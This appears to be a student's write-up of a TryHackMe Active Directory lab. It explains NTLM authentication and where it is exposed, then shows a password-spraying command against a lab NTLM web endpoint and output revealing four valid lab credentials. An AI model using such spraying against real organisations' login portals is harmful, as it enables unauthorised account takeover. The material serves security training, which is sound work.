

# NTLM authenticated services

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. 
NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication 
mechanism is used by the services on a network. And some services that use NetNTLM may also be exposed to the 
internet. Examples:

* Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
* Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
* Exposed VPN endpoints that were integrated with AD.
* Web applications that are internet-facing and make use of NetNTLM.

|  |
|:--:|
| The user is now either granted access or denied access, authorisation is performed on the <br>Exchange server with consultation of the msg.target.com Domain Controller. |

NTLM is generally considered insecure because it uses outdated cryptography that is vulnerable to several modes of attacks. NTLM is also vulnerable to pass-the-hash and brute-force attacks.

## Password spraying

Most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, a password spraying attack might work. We could use tools such as Hydra to assist with the password spraying attack. The room uses a script named `ntlm_passwordspray.py`.

The core function takes a suggested password and a URL to target as input and attempts to authenticate to the URL with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we can determine if the credential pair is valid or not. If the credential pair is valid, the application responds with a 200 HTTP (OK) code. If the pair is invalid, the application returns a 401 HTTP (Unauthorised) code. 

The parameters:

* `userfile` - Textfile containing usernames (`usernames.txt`)
* `fqdn` - Fully qualified domain name associated with the organisation we are attacking (`za.tryhackme.com`)
* `password` - The password we want to use for our spraying attack (`Changeme123`)
* `attackurl` - The URL of the application that supports Windows Authentication (`http://ntlmauth.za.tryhackme.com`)

```text
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

Results:

```text
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```
